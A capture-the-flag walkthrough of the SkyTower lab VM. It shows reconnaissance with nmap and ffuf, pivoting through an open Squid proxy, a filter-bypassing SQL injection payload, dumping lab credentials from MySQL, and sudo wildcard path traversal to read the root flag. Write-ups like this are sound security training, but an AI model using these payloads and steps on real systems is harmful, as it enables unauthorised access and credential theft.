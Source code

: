 # Description
This CTF was designed by Telspace Systems for the CTF at the ITWeb Security Summit and BSidesCPT (Cape Town). The aim is to test intermediate to advanced security enthusiasts in their ability to attack a system using a multi-faceted approach and obtain the "flag".

You will require skills across different facets of system and application vulnerabilities, as well as an understanding of various services and how to attack them. Most of all, your logical thinking and methodical approach to penetration testing will come into play to allow you to successfully attack this system. Try different variations and approaches. You will most likely find that automated tools will not assist you.

We encourage you to try it our for yourself first, give yourself plenty of time and then only revert to the Walkthroughs below.

Enjoy!

Telspace Systems

@telspacesystems

# Write-up

This is a quite old VM by now, so I focused on finding the intended solution and avoid using any vulnerability found since it was created.
Started by enumerating the target with nmap, first just checking for open ports and filtering it down from there:
```
$ nmap -n 10.0.2.6
PORT     STATE    SERVICE
22/tcp   filtered ssh
80/tcp   open     http
3128/tcp open     squid-http
```
So SSH is filtered, it's likely hosting a webpage, and we have squid proxy running on the system. From this, I can further enumerate the system:
```
$ nmap -sC -sV -T5 10.0.2.6 -p 22,80,3128
PORT     STATE    SERVICE    VERSION
22/tcp   filtered ssh
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Debian)
3128/tcp open     http-proxy Squid http proxy 3.1.20
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported: GET HEAD
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/3.1.20
```
So this tells us that we have a potentially open proxy, something important to keep in mind later on. Meanwhile, took a look at the webpage to see what it is serving, and it looks like a simple login page.
![](./Images/skytower_page.png)

Source code didn't turn out anything useful, and just testing a random username:password takes us to `/login.php` with message `login failed`.
Decided to quickly fuzz for common Apache and PHP files/folders with ffuf
```
$ ffuf -u http://ip/FUZZ -w ~/SecLists/Discovery/Web-Content/Apache.fuzz.txt         

.htpasswd               [Status: 403, Size: 285, Words: 21, Lines: 11, Duration: 2ms]
.htaccess               [Status: 403, Size: 285, Words: 21, Lines: 11, Duration: 4ms]
index.html              [Status: 200, Size: 1136, Words: 176, Lines: 34, Duration: 10ms]
server-status           [Status: 403, Size: 289, Words: 21, Lines: 11, Duration: 13ms]
.htaccess.bak           [Status: 403, Size: 289, Words: 21, Lines: 11, Duration: 14ms]
```
```
$ ffuf -u http://ip/FUZZ -w ~/SecLists/Discovery/Web-Content/Common-PHP-Filenames.txt

login.php               [Status: 200, Size: 21, Words: 2, Lines: 1, Duration: 477ms]
```
Nothing too interesting on the PHP side, but a couple of good hits on the apache scan. Of course trying to get any of these is met with a `403 - Forbidden`, so focused my attention on the potentially open proxy that nmap found.
Using a simple curl command:
```
curl --proxy http://ip:3128 http://localhost/server-status
```
Displays the apache server status log, so this confirms we have an open proxy. Testing any `.hta*` file didn't get any success, and the server status log will only show our own connections so it's of limited use.
At this point decided to use `https://github.com/aancw/spose` to scan for open ports behind the squid proxy:
```
$ python spose.py --proxy http://ip:3128 --target localhost 
localhost 22 seems OPEN 
localhost 80 seems OPEN 
```
So we now have a way to get to the SSH port, but no users to do anything with it yet. Focusing my attention back on the previous login page, decided to test for potential SQL injections on the login forms and hit an SQL error while using a `'`. Injecting `username= a'` we get:
```
There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'a'' at line 1]
```

Testing with multiple SQLi's I found that multiple keywords are filtered out, so can't use `"SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT"` and eventually got a hit using `'||1#`. This landed me on: 
![](./Images/skytower_user.png)


So now we have user credentials `john:hereisjohn` and can use the open proxy to SSH into the system.
Used proxychains to make this easier:
```
$ proxychains ssh john@localhost            
john@localhost's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Nov 21 12:02:41 2023 from localhost

Funds have been withdrawn
Connection to localhost closed.
```
The connection is getting closed, but this can be bypassed by removing .bashrc:
```
$ proxychains ssh john@localhost '/bin/bash'
rm .bashrc
```
We already had a shell with the command above, but SSH is much nicer to use.
First thing was to go back to the webroot and see if there was anything else I could use from there. Looking into the `login.php` file we find:
```
<?php

$db = new mysqli('localhost', 'root', 'root', 'SkyTech');

if($db->connect_errno > 0){
    die('Unable to connect to database [' . $db->connect_error . ']');

}

$sqlinjection = array("SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT");
$email = str_ireplace($sqlinjection, "", $_POST['email']);
$password = str_ireplace($sqlinjection, "", $_POST['password']);

$sql= "SELECT * FROM login where email='".$email."' and password='".$password."';";
$result = $db->query($sql);

```
So this validates the previous finds about filtered keywords, and also provides mysql credentials and a database to look into:
```
john@SkyTower:~$ mysql -uroot -proot

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| SkyTech            |
| mysql              |
| performance_schema |
+--------------------+

mysql> use SkyTech;
mysql> show tables;
+-------------------+
| Tables_in_SkyTech |
+-------------------+
| login             |
+-------------------+

mysql> select * from login;
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+---------------------+--------------+
3 rows in set (0.00 sec)
```
So now we have 3 users and credentials
```
john:hereisjohn
sara:ihatethisjob
william:senseable
```
Further enumeration from John's context didn't turn out anything useful, so moved on to the other users.
SSH'ing with Sara, and enumeration showed that this user can run a few commands with sudo:
```
sara@SkyTower:~$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
```
Given that using `*` in this way is insecure, this allows us to list the target `flag.txt` file in root using:
```
sara@SkyTower:~$ sudo ls /accounts/../root/
flag.txt
sara@SkyTower:~$ sudo cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
sara@SkyTower:~$ 
```